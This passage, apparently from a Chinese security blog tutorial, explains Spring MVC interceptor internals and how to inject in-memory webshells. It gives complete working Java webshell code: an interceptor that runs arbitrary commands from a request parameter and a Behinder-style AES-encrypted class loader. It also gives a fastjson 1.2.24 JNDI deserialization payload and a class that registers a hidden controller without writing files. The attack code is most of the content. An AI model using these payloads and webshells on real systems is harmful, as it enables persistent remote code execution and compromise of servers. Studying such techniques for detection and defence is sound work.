    <mvc:mapping path="/hello"/>
    <bean class="com.spring.Interceptor.TestInterceptor" />
  </mvc:interceptor>
</mvc:interceptors>
```
当访问hello路由的时候，就会触发拦截器
> 这里一定得有路由，如果没有注册hello这个路由，那么拦截器就无效果


### 分析拦截器的整个过程
完整的调用链如下所示：
```java
preHandle:20, TestInterceptor (com.spring.Interceptor)
applyPreHandle:133, HandlerExecutionChain (org.springframework.web.servlet)
doDispatch:962, DispatcherServlet (org.springframework.web.servlet)
doService:901, DispatcherServlet (org.springframework.web.servlet)
processRequest:970, FrameworkServlet (org.springframework.web.servlet)
doGet:861, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:846, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:201, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:544, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:698, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:364, CoyoteAdapter (org.apache.catalina.connector)
service:616, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:831, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1629, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```
关键的点在于`doDispatch`方法处，先通过getHandler方法获取了mappedHandler对象


在后方调用mappedHandler的applyPreHandler方法

这个方法中就是依次调用每个interceptor实例的preHandle方法，实际上就进入了前面写好的TestInterceptor类的preHandle方法中


在这里就有去调用写的TestInterceptor类中的preHandle方法


最后到我们写的方法中，执行完成返回true，至此就完成拦截器的调用


### 动态注入
跟踪mappedHandler的获取过程，先是调用了org.springframework.web.servlet.DispatcherServlet中的getHandler方法
跟进getHandler方法，遍历了`this.handlerMappings`


跟进`getHandler(request)`方法，


发现是调用的是`AbstractHandlerMapping (org.springframework.web.servlet.handler)` 也就是`org.springframework.web.servlet.handler.AbstractHandlerMapping`类中getHandler方法


再跟进getHandlerExecutionChain方法


发现其中会遍历adaptedInterceptors这数组，并判断获取的interceptor实例是不是MappedInterceptor类的实例对象，而MappedInterceptor类就是对拦截器HandlerInterceptor接口的实现，所以前面定义的TestInterceptor自然会被加入chain中并返回


那么如果我们能将恶意的**interceptor**实例添加到`org.springframework.web.servlet.handler.AbstractHandlerMapping`类的实例对象的**adaptedInterceptors**中，那么就可以完成动态注入那么关键就在于找到`org.springframework.web.servlet.handler.AbstractHandlerMapping`类的实例对象，CTRL+ALT+B找到所有`AbstractHandlerMapping`的子类，并在`beanFactory`的`beanDefinitionNames`中找到它的实例


因此可以通过context.getBean("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping")获取该对象，再反射获取其中的adaptedInterceptors属性，并添加恶意interceptor实例对象即可完成内存马的注入

### 实例
#### 0x1 注入普通马
```java
package com.spring.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@Controller
public class Test extends HandlerInterceptorAdapter {
    @RequestMapping(value = "/a")
    public String test() throws NoSuchFieldException, IllegalAccessException {
        // 获取当前上下文的dispatch-servletContext
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从context中获取AbstractHandlerMapping的实例对象
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 反射获取adaptedInterceptors属性
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
        System.out.println(adaptedInterceptors);
        System.out.println(adaptedInterceptors.get(0).getClass().toString());
        // 避免重复
        for(Object object : adaptedInterceptors){
            if(object instanceof Test){
                System.out.println("已经添加过Test实例了");
                return "hello";
            }
        }
        // 向添加恶意的interceptor实例对象
        Test test = new Test();
        adaptedInterceptors.add(test);
        return "hello";
    }
    public Test(){}
    // 复写 prehandle方法
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception{
        String code = request.getParameter("code");
        // 不干扰正常业务逻辑
        if (code != null) {
            java.lang.Runtime.getRuntime().exec(code);
            return true;
        }
        else {
            return true;
        }
    }
}

```
访问该路由之后，如下所示，在 adaptedInterceptors 数组中已经有添加过的恶意添加的interceptor


最后在如下所示code参数添加命令，则可以直接执行命令


#### 0x2 注入冰蝎马
原理同controller注入冰蝎马
```java
package com.spring.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.util.HashMap;
import java.util.Map;

@Controller
public class Test extends HandlerInterceptorAdapter {
    private final String k = "e45e329feb5d925b";
    @RequestMapping(value = "/a")
    public String test() throws NoSuchFieldException, IllegalAccessException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
        System.out.println(adaptedInterceptors);
        System.out.println(adaptedInterceptors.get(0).getClass().toString());
        for(Object object : adaptedInterceptors){
            if(object instanceof Test){
                System.out.println("已经添加过Test实例了");
                return "hello";
            }
        }
        Test test = new Test();
        adaptedInterceptors.add(test);
        return "hello";
    }
    public Test(){}
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception{
        String code = request.getParameter("code");
        // 不干扰正常业务逻辑
        if (code != null) {
            behinder();
            return true;
        }
        else {
            return true;
        }
    }
    public HttpServletResponse behinder() throws Exception {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }
}

```



## 无文件落地注入
这里我使用maven添加`fastjson 1.2.24`,使用jndi注入，当`newInsatnce`之后注册路由，并在此路由上绑定对应Controller
### 0x1 jndi 测试
Spring 要解析客户端发送的json数据，大部分是使用`Jackson`,fastjson也可以
首先引入依赖
```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```
然后在Controller里写入由fastjson解析json对象的方法
```java
 @RequestMapping(value = "/testjson", consumes = {"application/json"},
            produces = {"application/json"})
    @ResponseBody
    public String showUserListInJson(HttpServletRequest request,HttpServletResponse response) throws IOException {
        BufferedReader bufferedReader = request.getReader();
        String bodyStr,body = "";
        while((bodyStr = bufferedReader.readLine()) != null){
            body += bodyStr;
        }
        System.out.println(body);
        System.out.println(JSON.parse(body));
        return body;
    }
```
```java
package com.spring.Controller;

public class User {
    private Integer userId = 0;
    private String userName = "";
    public User(){}

    public Integer getUserId() {
        return this.userId;
    }

    public void setUserId(Integer userId) {
        System.out.println("set running");
        this.userId = userId;
    }

    public String getUserName() {
        return this.userName;
    }

    public void setUserName(String userName) {
        System.out.println("set running");
        this.userName = userName;
    }
    @Override
    public String toString(){
        return "User{" +
                "name='" + userName + '\'' + ',' + "id='" + userId + '\'' +
                '}';
    }
}

```
```java
public class Exec {
    public Exec() {
        System.out.println("hello world");
    }
}
```
启动web，启动marshalsec，发送如下payload
```http
POST /testjson HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 112

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://127.0.0.1:1389/abc",
"autoCommit":true
}
```


### 0x2 jndi 注入冰蝎马
如果执行的字节码文件需要不用引入其他包，那么直接执行Runtime.getRuntime.exec即可执行命令，反弹shell等操作，但是如果需要在spring 应用中注入，那么需要使用spring相关的包，才能获取到对应的context，在这里需要使用maven项目，添加对应的spring 包，或者有jar包也可以直接添加到lib文件里，然后用idea编译成class文件，对应在target目录下
```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.*;

public class Exec extends ClassLoader{
    private final String k = "e45e329feb5d925b";
    public Exec(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);  // 调用父类的defineClass函数
    }
    public Exec(String aaa){}
    public Exec() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 可选步骤，判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
        Map urlLookup = (Map) field.get(mappingRegistry);
        Iterator urlIterator = urlLookup.keySet().iterator();
        List<String> urls = new ArrayList();
        while (urlIterator.hasNext()){
            String urlPath = (String) urlIterator.next();
            if ("/jnditest".equals(urlPath)){
                System.out.println("url已存在");
                return;
            }
        }
        // 可选步骤，判断url是否存在
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method2 = Exec.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/jnditest");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，加入“aaa”参数是为了触发第二个构造函数避免无限循环
        Exec injectToController = new Exec("aaa");
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
        System.out.println("hello world");
    }
    // controller指定的处理方法
    public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            Exec helloWorldController = new Exec(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }
}

```
生成的Exec.class


### 问题总结

1. 编译的时候，jdk最好选择服务器对应的jdk版本，jdk11 和 jdk8 跨大版本，在编译成功之后使用jndi注入会报错，而且是十分致命的错误
2. maven项目，尽量也要选择与目标主机spring相差不大的版本，保证能获取到Context
## 参考链接

[https://landgrey.me/blog/19/](https://landgrey.me/blog/19/)

[https://landgrey.me/blog/12/](https://landgrey.me/blog/12/)

[https://www.anquanke.com/post/id/198886#h2-0](https://www.anquanke.com/post/id/198886#h2-0)

[https://www.cnblogs.com/bitterz/p/14820898.html](https://www.cnblogs.com/bitterz/p/14820898.html#11-fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%92%8Cjndi)

[https://www.cnblogs.com/wudb/archive/2017/08/31/7458856.html](https://www.cnblogs.com/wudb/archive/2017/08/31/7458856.html)

[https://www.cnblogs.com/DDgougou/p/9621675.html](https://www.cnblogs.com/DDgougou/p/9621675.html)

[https://blog.csdn.net/xcxy2015/article/details/80746614](https://blog.csdn.net/xcxy2015/article/details/80746614)

[https://stackoverflow.com/questions/34414906/classloading-using-different-versions-of-the-same-class-java-lang-linkageerror](https://stackoverflow.com/questions/34414906/classloading-using-different-versions-of-the-same-class-java-lang-linkageerror)

https://blog.csdn.net/weixin_44411569/article/details/91379483

